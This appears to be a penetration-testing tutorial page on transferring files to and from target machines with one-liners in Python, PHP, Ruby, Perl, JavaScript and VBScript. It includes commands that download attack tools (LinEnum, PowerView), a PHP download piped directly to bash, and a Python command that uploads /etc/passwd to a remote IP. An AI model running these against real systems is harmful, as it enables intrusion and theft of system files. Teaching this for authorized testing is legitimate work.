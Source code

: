 # Transferring Files with Code

When targeting machines, we often find different programming languages installed. Commonly encountered languages include Python, PHP, Perl, and Ruby, especially on Linux distributions. These languages can also be installed on Windows, though less frequently. Additionally, Windows default applications like `cscript` and `mshta` allow execution of JavaScript or VBScript code, which can also be used on Linux hosts.

With approximately 700 programming languages available, we can create code in many of them to download, upload, or execute instructions on an OS. This section provides examples using some common programming languages.

## Python

Python is widely used, with version 3 currently supported. However, older servers may still use Python 2.7. Python allows running one-liners from the command line using the `-c` option.

### Python 2 - Download

```
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---

## PHP

PHP is prevalent, powering 77.4% of websites with a known server-side language. It provides several methods for file transfer and supports running one-liners using the `-r` option.

### PHP Download with File_get_contents()

```
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### PHP Download with Fopen()

```
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download and Pipe to Bash

```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

---

## Ruby

Ruby supports one-liners using the `-e` option for file transfers.

### Ruby - Download a File

```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---

## Perl

Perl is another popular language for file transfers, supporting one-liners with the `-e` option.

### Perl - Download a File

```
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

## JavaScript

JavaScript can be used for file downloads. Below is an example using Windows `cscript` to execute JavaScript.

### JavaScript Code: `wget.js`

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

### Execute JavaScript Code

```
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---

## VBScript

VBScript is an Active Scripting language installed by default on Windows since Windows 98.

### VBScript Code: `wget.vbs`

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

### Execute VBScript Code

```
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---

## Upload Operations using Python 3

Python’s `requests` module can perform HTTP file uploads. Below is an example.

### Start the Python Upload Server

```
python3 -m uploadserver
```

### Upload a File

```
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

### Breakdown of the Python Code

```
import requests

# Define the target URL
URL = "http://192.168.49.128:8000/upload"

# Open the file to upload
file = open("/etc/passwd","rb")

# Perform the upload
r = requests.post(url,files={"files":file})
```

---

## Section Recap

Understanding file transfer techniques using code can aid in red teaming, penetration testing, CTF competitions, incident response, forensic investigations, or sysadmin tasks. These examples demonstrate downloading and uploading files using various programming languages, showcasing the versatility and importance of coding in these scenarios.